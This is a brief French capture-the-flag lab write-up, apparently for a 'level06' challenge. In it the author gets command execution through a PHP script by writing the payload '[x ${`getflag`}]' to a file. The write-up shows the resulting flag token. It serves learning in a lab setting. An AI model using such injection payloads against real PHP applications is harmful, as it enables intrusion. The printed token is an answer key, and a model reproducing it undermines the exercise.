 ls -la
un exec trouver level06
et un fichier level06.php

quand on lance l'ex il nous demande un file name
et donc quand on le lance sur le .php il le print avec de y / ... a la place de certaint charac
je vais regarder ca mais on doit pouvoir lui dire de getflag en jouant sur les charac

je vais donc faire des test dans un fichier /tmp/script
avec des echo '[x &...]'
je suis tomber assez rapidement sur la reponse qui est
echo '[x ${`getflag`}]' > /tmp/script

quand je lance ./level06 /tmp/script
ca me donne:
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub